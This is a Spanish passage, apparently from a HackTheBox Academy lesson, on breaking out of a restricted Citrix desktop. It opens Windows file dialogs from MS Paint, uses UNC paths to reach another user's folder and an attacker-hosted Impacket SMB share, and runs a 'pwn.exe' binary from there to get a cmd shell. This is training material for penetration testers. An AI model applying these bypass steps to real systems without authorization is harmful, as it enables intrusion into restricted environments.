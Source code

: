 ![Image](https://academy.hackthebox.com/storage/modules/67/C_users_restricted.png)

Numerosas aplicaciones de escritorio desplegadas a través de Citrix están equipadas con funcionalidades que les permiten interactuar con archivos en el sistema operativo. Funciones como Save, Save As, Open, Load, Browse, Import, Export, Help, Search, Scan y Print, generalmente brindan a un atacante la oportunidad de invocar una ventana de diálogo de Windows. Hay múltiples formas de abrir una ventana de diálogo en Windows utilizando herramientas como Paint, Notepad, Wordpad, etc. Cubriremos el uso de `MS Paint` como ejemplo para esta sección.

Ejecuta `Paint` desde el menú de inicio y haz clic en `File > Open` para abrir la ventana de diálogo.

![Image](https://academy.hackthebox.com/storage/modules/67/paint.png)

Con la ventana de diálogo de Windows abierta para paint, podemos ingresar la ruta [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) `\\127.0.0.1\c$\users\pmorgan` en el campo del nombre del archivo, con el tipo de archivo configurado en `All Files` y al presionar enter obtenemos acceso al directorio deseado.

![Image](https://academy.hackthebox.com/storage/modules/67/paint_flag.png)

---

## Acceso a compartir SMB desde el entorno restringido

Teniendo restricciones configuradas, el Explorador de archivos no permite el acceso directo a compartir SMB en la máquina atacante. Sin embargo, al utilizar la ruta UNC dentro de la ventana de diálogo de Windows, es posible eludir esta limitación. Este enfoque puede emplearse para facilitar la transferencia de archivos desde una computadora diferente.

Inicia un servidor SMB desde la máquina atacante utilizando el script `smbserver.py` de Impacket.

```r
root@ubuntu:/home/htb-student/Tools# smbserver.py -smb2support share $(pwd)

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

De vuelta en el entorno Citrix, inicia la aplicación "Paint" a través del menú de inicio. Procede a navegar al menú "File" y selecciona "Open", lo que hará que aparezca la ventana de diálogo. Dentro de esta ventana de diálogo de Windows asociada con Paint, ingresa la ruta UNC como `\\10.13.38.95\share` en el campo designado "File name". Asegúrate de que el parámetro File-Type esté configurado en "All Files". Al presionar la tecla "Enter", se logra la entrada al compartir.

![Image](https://academy.hackthebox.com/storage/modules/67/paint_share.png)

Debido a la presencia de restricciones dentro del Explorador de archivos, la copia directa de archivos no es viable. No obstante, un enfoque alternativo implica `right-clicking` en los ejecutables y posteriormente iniciarlos. Haz clic derecho en el binario `pwn.exe` y selecciona `Open`, lo que debería solicitarnos ejecutarlo y se abrirá una consola cmd.

